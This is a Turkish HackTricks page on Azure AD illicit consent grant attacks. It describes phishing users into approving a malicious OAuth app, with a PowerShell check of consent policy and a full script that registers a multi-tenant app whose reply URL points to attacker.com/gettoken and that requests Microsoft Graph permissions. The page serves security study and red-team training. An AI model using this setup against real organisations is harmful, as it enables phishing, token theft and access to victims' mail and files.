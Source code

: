 # Az - Yasadışı Onay Verme

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>

## OAuth Uygulama Saldırısı

**Azure Uygulamaları**, **kullanıcı verilerine** (temel bilgiler, belgelere erişim, e-posta gönderme...) erişim izni istemektedir.\
**İzin verildiğinde**, normal bir kullanıcı sadece **"Düşük Etki" izinleri** için onay verebilir. **Diğer tüm** durumlarda, **yönetici onayı gereklidir**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` ve `uygulamalara izin verme izni` içeren özel bir rol, kiracı genelinde onay sağlayabilir.

Yalnızca **yönetici onayı gerektirmeyen izinler**, **düşük etki** olarak sınıflandırılır. Temel oturum açma için gereken izinler openid, profile, email, User.Read ve offline\_access'dir. Bir **kuruluş**, kullanıcı onayına **tüm uygulamalar** için izin verirse, bir çalışan, bir uygulamaya **profilinden yukarıdakileri okuma** izni verebilir.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Bu nedenle, bir saldırgan **kötü niyetli bir Uygulama** hazırlayabilir ve **phishing** ile kullanıcıyı **Uygulamayı kabul etmeye ve verilerini çalmaya** ikna edebilir.

### Kullanıcıların onay vermesine izin verilip verilmediğini kontrol edin

Aşağıdaki PowerShell komutu, Azure Active Directory (Azure AD) kullanıcılarının uygulamalara onay verebilme yetenekleriyle ilgili onay yapılandırmasını kontrol etmek için kullanılır:
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **Kullanıcı onayını devre dışı bırak**: Bu ayar, kullanıcıların uygulamalara izin vermesini engeller. Kullanıcıların uygulamalara onay vermesine izin verilmez.
* **Kullanıcılar doğrulanmış yayıncılardan veya kuruluşunuzdan uygulamalara onay verebilir, ancak yalnızca seçtiğiniz izinler için**: Bu ayar, tüm kullanıcıların yalnızca doğrulanmış bir yayıncı tarafından yayınlanan ve kendi kiracınıza kaydedilen uygulamalara onay vermesine izin verir. Yalnızca belirli izinler için onay verilmesine izin vererek bir kontrol katmanı ekler.
* **Kullanıcılar tüm uygulamalara onay verebilir**: Bu ayar daha izin vericidir ve tüm kullanıcıların yönetimsel onay gerektirmeyen izinler için herhangi bir uygulamaya onay vermesine izin verir.
* **Özel uygulama onay politikası**: Bu ayar, özel bir politikanın uygulandığını gösterir ve belirli kurumsal gereksinimlere göre özelleştirilebilir. Bu politika, uygulama yayıncısına, uygulamanın istediği izinlere ve diğer faktörlere dayalı olarak kısıtlamaların bir kombinasyonunu içerebilir.

## **Haksız Onay Verme Saldırısını Anlama**

Haksız onay verme saldırısında, saldırganlar Azure'a kaydedilmiş kötü niyetli bir uygulamaya izin vermek için son kullanıcıları kandırır. Bunun için uygulamanın meşru görünmesini sağlayarak kurbanların bilmeden "Kabul Et" düğmesine tıklamasını sağlarlar. Sonuç olarak, Azure AD saldırganın sitesine bir belirteç verir ve saldırganın kuruluş hesabına ihtiyaç duymadan kurbanın verilerine erişmesine ve bunları manipüle etmesine olanak tanır, örneğin e-postaları okuma veya gönderme ve dosyalara erişme gibi.

## **Saldırı Akışı Genel Bakışı**

Saldırı, genel bir şirketi hedef alan birkaç adım içerir. İşte nasıl gerçekleşebileceği:

1. **Alan Kaydı ve Uygulama Barındırma**: Saldırgan, güvenilir bir siteye benzeyen bir alan kaydeder, örneğin "güvenlialanlogin.com". Bu alan altında, kötü niyetli uygulamayı barındırmak için bir alt alan oluşturulur (örneğin "sirketadı.güvenlialanlogin.com").

2. **Azure AD'de Uygulama Kaydı**: Saldırgan, Azure AD Kiracında Hizmet Sağlayıcı Uygulaması kaydeder ve meşru görünmek için hedef şirketin adını verir. Uygulamanın Yönlendirme URL'sini, kötü niyetli uygulamayı barındıran alt alanı işaret edecek şekilde yapılandırır.

3. **İzinleri Ayarlama**: Saldırgan, uygulamayı çeşitli API izinleriyle yapılandırır (örneğin, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Bu izinler, kullanıcı tarafından onaylandığında saldırganın kullanıcı adına hassas bilgileri çekmesine olanak tanır.

4. **Kötü Amaçlı Bağlantıları Dağıtma**: Saldırgan, kötü niyetli uygulamanın istemci kimliğini içeren bir bağlantı oluşturur ve hedeflenen kullanıcılarla paylaşarak onlara onay vermelerini sağlar.

## **Saldırı İçin Araçları Kullanma**

Saldırı, [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer) gibi araçlar kullanılarak kolaylaştırılabilir.

### Saldırı Öncesi Hazırlık:
Saldırgan, kurban kuruluşunun politikasının kullanıcının uygulamaları kabul etmesine izin verip vermediğini kontrol edebilir, eğer saldırganın kurban kuruluşunda bir kullanıcıya erişimi varsa.
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
Saldırıyı gerçekleştirmek için saldırganın Azure Kiracısında (Uygulama kayıtlarında) **yeni bir Uygulama** oluşturması gerekmektedir. Bu uygulama aşağıdaki izinlerle yapılandırılmalıdır:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`, `Microsoft Graph` içinde `Delegated permissions` altında bulunmaktadır. (Uygulama izinleri her zaman ek onay gerektirir).

* `User.ReadBasic.All`, verildiği takdirde, kuruluştaki **tüm kullanıcıların bilgilerini okumanıza** olanak sağlayan bir izindir.
* Unutmayın ki, yalnızca `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` ve `uygulamalara izin verme iznine sahip özel bir rol` içeren kullanıcılar, kiracı genelinde onay verebilir. Bu nedenle, **yönetici onayı gerektiren bir Uygulamayı** onaylaması için bu rollerden birine sahip bir kullanıcıyı **phishing** yapmanız gerekmektedir.

Ayrıca, aşağıdaki komut satırı aracılığıyla da bir Uygulama oluşturabilirsiniz:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Nasıl yapılandırılacağını öğrenmek için [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) adresini kontrol edin.

{% hint style="warning" %}
Elde edilen **erişim belirteci**, **graph uç noktası** için `User.Read` ve `User.ReadBasic.All` (istenen izinler) kapsamında olacaktır. Diğer işlemleri gerçekleştiremeyeceksiniz (ancak bu izinler, orgdaki tüm kullanıcılar hakkında bilgi indirmek için yeterlidir).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

Bu saldırıyı gerçekleştirmek için bu aracı da kullanabilirsiniz.

## Saldırı Sonrası

Kullanıcıya erişim sağladıktan sonra hassas belgeleri çalabilir ve hatta geri kapı eklenmiş belge dosyalarını yükleyebilirsiniz.

## Referanslar

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı yapmak veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
